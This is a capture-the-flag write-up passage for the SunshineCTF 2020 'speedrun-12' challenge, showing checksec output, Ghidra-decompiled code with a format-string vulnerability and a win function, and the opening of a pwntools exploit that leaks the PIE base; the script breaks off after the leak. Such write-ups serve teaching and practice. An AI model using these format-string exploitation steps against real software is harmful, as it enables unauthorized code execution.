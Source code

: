 ### Checksec
```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Same as [speedrun-11](#speedrun-11), but with PIE.

### Decompile with Ghidra

```c
void main(undefined1 param_1)
{
  char local_24 [20];
  undefined1 *local_10;
  
  local_10 = &param_1;
  printf("Just a single second: %p\n",main);
  fgets(local_24,0x13,stdin);
  vuln();
  return;
}

void vuln(void)
{
  char local_d4 [204];
  
  fgets(local_d4,199,stdin);
  printf(local_d4);
  fflush(stdin);
  return;
}

void win(void)
{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  system((char *)(iVar1 + 0x167));
  return;
}
```

Same as [speedrun-11](#speedrun-11), but with PIE, so we need to leak the base process address.  `main` provides that leak.

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_12')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30012)

p.recvuntil('Just a single second: ')
_ = p.recvline().strip()
```